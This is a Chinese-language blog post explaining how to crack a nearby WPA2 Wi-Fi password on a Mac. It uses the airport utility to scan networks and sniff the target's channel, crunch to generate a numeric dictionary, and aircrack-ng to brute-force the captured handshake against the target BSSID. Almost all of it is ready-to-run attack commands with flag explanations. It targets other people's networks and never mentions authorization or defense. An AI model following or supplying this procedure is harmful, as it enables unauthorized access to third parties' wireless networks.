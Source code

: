 ```yaml
---
layout: post
title: Mac上使用aircrack-ng破解Wi-Fi密码
tags: [mac, aircrack-ng, Wi-Fi]
categories:
  - 技术互联
---
```


## 使用Airport获取附近可用Wi-Fi　

　　MacOS自带的命令可以获取附近Wi-Fi的详细信息。首先我们需要把命令加到环境变量中：

```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

　　然后通过`source ~/.zshrc`或者重新打开终端即可使用`airport`命令：

```
sudo airport -s
```

　　命令结果显示出附近可用的Wi-Fi信息，如下所示：

```
	SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
 ******* **:**:**:**:**:** -50  153     Y  CN -- WPA2(PSK/AES/AES)
ChinaNet **:**:**:**:**:** -46  11      N  CN NONE
...
```

　　其中，我们先找到我们需要破解的Wi-Fi名字，纪录下来BSSID，CHANNEL和SECURITY信息，后面会用到。BSSID就是我们目标Wi-Fi发射器的Mac地址。

## 开启信道监听

　　首先我们要获取Mac本机无线网卡名字，通过键入`ifconfig`分析可以得到。我本机无线网卡的名字`en1`，下面的命令需要替换成自己对应的无线网卡名称：

```
sudo airport en1 sniff 11
```

　　命令中的11就是我们在之前获取附近Wi-Fi信息所记录目标Wi-Fi的信道。如果一切顺利的话，会生成`/tmp/airportSniffy*.cap`文件纪录捕获的传输数据。这个文件地址也需要纪录下来，后面会用到。

## 安装aircrack-ng、crunch 

　　使用`brew`包管理器安装就可以，也可以选择下载源码自己编译安装。

```
brew install aircrack-ng
brew install crunch # optional
```

　　crunch 是一个自定义字典生成器，如果有现成的字典则不需要。crunch 生成长度为8的纯数字字典并存入 dic.txt 示例如下：

```
crunch 8 8 012345678 -o dic.txt
```

## 开始破解

　　由于现在的Wi-Fi基本上都是采用WPA2的加密方式，所以我们需要指定 -a 参数为2。

```
aircrack-ng -w dic.txt -M 100 -f 80 -1 -a 2 -b **:**:**:**:**:** /tmp/airportSniff*.cap
```

　　参数说明：

    - \-w 指定字典文件
    - \-M 指定最大IVs，根据提示可以适当调大次参数
    - \-f 暴力破解因子，默认2，也可适当调大
    - \-a 加密类型，1:WEP, 2:WPA-PSK
    - \-b BSSID，刚刚纪录目标Wi-Fi的Mac地址
    
    更多参数说明可以通过`aircrack-ng --help`查看。
    后面紧跟之前纪录的捕获数据的存储地址即可。如果在字典里面找到的话，可以看到如下画面：

![Crack SuccessFully Image]({{ site.image_url }}/aircrack-ng/success.png)

    注：因为 aircrack-ng 是破解捕获数据的，所以所破解的Wi-Fi必须要有设备连接，并且有网络通信，否则无法破解。

## 参考目录

- [1] [Aircrack-ng Wiki](https://www.aircrack-ng.org/doku.php?id=Main)
